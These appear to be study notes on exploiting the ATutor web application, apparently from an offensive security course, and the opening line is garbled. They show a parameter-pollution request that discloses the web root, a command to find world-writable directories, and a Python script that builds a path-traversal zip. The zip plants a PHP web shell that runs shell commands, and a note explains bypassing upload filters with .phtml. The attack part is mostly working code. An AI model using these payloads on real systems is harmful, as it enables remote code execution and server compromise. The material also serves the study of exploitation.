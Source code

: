 _build_zip()
```

##### Disclosing Web Root

A typical example is the abuse of the display_errors1 PHP settings

A good example of how to leverage the display_errors misconfiguration is by sending a GET request with arrays injected as parameters. This technique, known as Parameter\ Pollution or Parameter\ Tampering relies on the fact that most back-end code does not expect arrays as input data, when that data is retrieved from a HTTP request. For example, the application may directly be passing the $GET["some_parameter"] variable into a function that is expecting a string data type. However, since we can change the data type of the some_parameter from string to an array, we can trigger an error.


```
GET /ATutor/browse.php?access=&search[]=test&include=all&filter=Filter HTTP/1.1
Host: target
```

http://php.net/manual/en/errorfunc.configuration.php#ini.display-errors



```
find /var/www/html/ -type d -perm -o+w
```

```
#!/usr/bin/python
import zipfile
import io
#from io import StringIO

def _build_zip():
    #f = StringIO()
    f = io.BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    #z.writestr('poc/poc.txt', str.encode('offsec'))
    #z.writestr('../../../../../tmp/poc/poc.txt', str.encode('offsec'))
    z.writestr('../../../../../var/www/html/ATutor/mods/poc/poc.txt', str.encode('offsec'))
    z.writestr('shell.php.txt', str.encode('<?php system($_GET[\'cmd\']); ?>'))
    #z.writestr('imsmanifest.xml', str.encode('<validTag></validTag>'))
    z.writestr('imsmanifest.xml', str.encode('invalid xml!'))
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()

_build_zip()
```
##### Bypassing File extension

Use .phtml

```
#!/usr/bin/python
import zipfile
import io
#from io import StringIO
